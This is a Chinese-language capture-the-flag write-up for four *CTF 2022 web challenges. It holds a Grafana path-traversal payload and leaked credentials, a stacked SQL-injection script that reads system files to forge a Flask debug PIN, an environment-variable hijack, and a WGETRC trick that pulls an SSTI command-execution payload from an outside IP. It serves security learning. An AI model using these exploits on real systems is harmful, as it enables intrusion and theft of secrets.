题目环境https://github.com/sixstars/starctf2022

# oh-my-grafana

这道题环境已经关了，docker也报错了，但是并不难，网上可以搜到payload，然后读到后台账户和密码

```
/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
```

```
admin@localhost
5f989714e132c9b04d4807dafeb10ade
```

还有mysql数据库的密码

```
# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = mysql
;host = mysql:3306
;name = grafana
;user = grafana
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password = grafana
```

进去连接MySQL数据库（默认是连接着的，也可能是公共靶场的原因）



有个可以执行SQL语句的地方

开始一直读不到，甚至连不上，应该是有人捣乱，最后的payload

```
select flag from fffffflllllllllaaaagggggg
```

# oh-my-notepro

随便用一个账号登陆，有个create note



创建后，访问看到了创建的note，访问后来到了应该view路由

随便访问一个异常路由看到了flask的debug页面





这里看到了一个execute，sql中的multi开启是存在堆叠注入的可能性的

因为这里开启的debug模式，可以通过pin码直接去获取一个shell，应该是pin码伪造了

在pin码伪造中需要去读取

```
username # 用户名

modname # flask.app

getattr(app, '__name__', getattr(app.__class__, '__name__')) # Flask

getattr(mod, '__file__', None) # flask目录下的一个app.py的绝对路径

uuid.getnode() # mac地址十进制

get_machine_id() # /etc/machine-id
```

这里应该就是用SQL的堆叠注入去读取对应的文件了

但是`load_file`无法成功读取一些涉及系统信息的文件，改用`load data infile`来读取，发现能读到涉及MAC等pin码伪造的必要信息

但是这里伪造pin码的时候和平常有一些区别

MySQL服务和Web服务分属两个不同的容器，使用`load data infile`读取到的是MySQL容器的文件信息，该文件信息并不是Web服务的运行环境信息，所以应该使用`load data local infile`来读取Web服务的文件信息来构造pin码

网上大多数的pin码计算方式并不能计算出当前环境下正确的pin码，主要有两个变化，一个是修改以前是读取`/proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id`这三个文件，读取到一个文件的内容，直接返回，新版本是从`/etc/machine-id、/proc/sys/kernel/random/boot_id`中读到一个值后立即break，然后和`/proc/self/cgroup`中的id值拼接，使用拼接的值来计算pin码；二一个变化是h的计算从md5变为了使用sha1，所以计算pin码的POC也要进行相应的调整

exp.py

```
import requests
import re
import string
import random
from pin import solve


def get_content(file, regexp):
    ans = ''
    z = 1
    while True:
        try:
            tmp_database = get_random_id()
            path = f"view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));"
            view_url = base_url + path
            r = s.get(url=view_url)
            content = re.findall("'~(.*?)'", r.text)[0]
            if content[0] == '~':
                break
            ans += content[:-1]
            if content[-1] != '~':
                break
            z += 20
            print(ans)

        except Exception as e:
            print(e)
            break
    k = re.findall(regexp, ans)[0]
    print('k is: ', k)
    return k


def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])


base_url = 'http://localhost:5002/'
base_url = 'http://124.70.185.87:5002/'
s = requests.session()

login_data = {
    'username': "veererere",
    'password': "fefefef"
}
proxies = {
    'http': 'http://127.0.0.1:8080'
}
login_url = base_url + 'login'
r = s.post(url=login_url, data=login_data, proxies=proxies)

cgroup = get_content('/proc/self/cgroup', 'docker/(.*?),')
machine_id = get_content('/etc/machine-id', '(.*)')
eth0 = get_content('/sys/class/net/eth0/address', '(.*)')

eth0 = str(int(eth0.replace(':', ''), 16))

print("eth0 is: ", eth0)
print("machine_id is: ", machine_id)
print("cgroup is: ", cgroup)
solve('ctf', eth0, machine_id, cgroup)
```

pin.py

```
import hashlib
from itertools import chain

def solve(username, eth0, machine_id, cgroup):
    probably_public_bits = [
    username,# username ok
    'flask.app', # ok
    'Flask' #ok,
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # ok
]

    private_bits = [
        eth0,# /sys/class/net/eth0/address
        machine_id + cgroup
        # '7cb84391-1303-4564-8eff-ef7571804198327e92627edf30f63fde916e3c3017aea76eeb876265a726270a575d391eeb4a'# machine-id
        # /etc/machine-id + /proc/self/cgroup
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num
    print(rv)
```



然后在debug解码去获取shell，这里还有个问题，就是这里的shell是需要用python命令的，而且当时我执行的时候报错了，看wp说要新开一个无痕模式清理了缓存才可以



这里用os.system没有成功，最后使用了os.popen

# oh-my-lotto

这里复现的是一个非预期解

先爆破md5拿到端口

```
# -*- coding: utf-8 -*-

import multiprocessing
import hashlib
import random
import string
import sys

CHARS = string.ascii_letters + string.digits


def cmp_md5(substr, stop_event, str_len, start=0, size=20):
    global CHARS

    while not stop_event.is_set():
        rnds = ''.join(random.choice(CHARS) for _ in range(size))
        md5 = hashlib.md5(rnds.encode('utf-8'))

        if md5.hexdigest()[start: start + str_len] == substr:
            print(rnds)
            stop_event.set()


if __name__ == '__main__':
    substr = sys.argv[1].strip()

    start_pos = int(sys.argv[2]) if len(sys.argv) > 1 else 0

    str_len = len(substr)
    cpus = multiprocessing.cpu_count()
    stop_event = multiprocessing.Event()
    processes = [multiprocessing.Process(target=cmp_md5, args=(substr,
                                                               stop_event, str_len, start_pos))
                 for i in range(cpus)]

    for p in processes:
        p.start()

    for p in processes:
        p.join()
```

```
python a.py 647e22 0
```

审计源码



在lotto路由下，可以提交两个参数lotto_key和lotto_value

然后可以设置环境变量，下载了`/app/lotto_result.txt`

这个东西可以通过result路由传入一个files参数


渲染到了result.html上


可以看到一串数字

然后还可以去读一个`/app/guess/forecast.txt`，`/app/guess/forecast.txt`这个文件可控的，可以通过result路由读出来的对他进行相应的赋值



在forecast路由下，传入一个file，然后保存到`/app/guess/forecast.txt`

那这里是不是就可以直接让他们相等返回flag了呢，但是并不行

可以看到这是是随机生成的数字，每次是不一样的



再回到lotto路由



不过这里的`os.environ[lotto_key] = lotto_value`是完全可控的

可以利用PATH，改变用户主目录，让这个文件下载到其他地方，os.environ["PATH"]可以理解为windows在其他地方打开了cmd

然后就可以让forecast对于lotto_result

exp如下

```
import requests
url = "http://121.36.217.177:53000/"

def lotto(key,value):
    data = {"lotto_key": key,
            "lotto_value": value}
    txt=requests.post(url + "lotto",data=data).text
    print(txt)

def getResult():
    txt=requests.get(url+"result").text
    p=txt.split("<p>")[-1].split("</p>")[0]
    return p

lotto("","")
result= {"file":getResult()}
requests.post(url + "forecast",files=result)
lotto("PATH","xxxx")
#*ctf{its_forecast_0R_GUNICORN}
```

# oh-my-lotto-revenge

这里和上一个不一样的就是flag没有回显了，其他的没有区别


利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE（两个都可以这么打）

写一个forecast文件（随便写一个文件就行，他读进去会默认保存到/app/guess/forecast.txt）

```
http_proxy=47.93.248.221:9999
output_document=/app/source/templates/index.html
```

http_proxy指定去下载的url

output_dociment指定下载的路径，这样去覆盖本身的index.html（都可以渲染，随便覆盖一个都可以）

在forecast路由上传文件

在lotto路由下修改WGETRC的环境变量


下载到/app/guess/forecast.txt，然后在forecast.html渲染我们的SSTI语句

起一个flask服务（这里也可以去反弹shell）

```
from flask import Flask, make_response
import secrets

app = Flask(__name__)

@app.route("/")
def index():
    r =  {{config.__class__.__init__.__globals__['os'].popen('env').read()}}
    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=lotto_result.txt'
    return response

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=9999)
```

因为我覆盖的index.html，所以访问home目录（两次），不然访问不到覆盖掉的



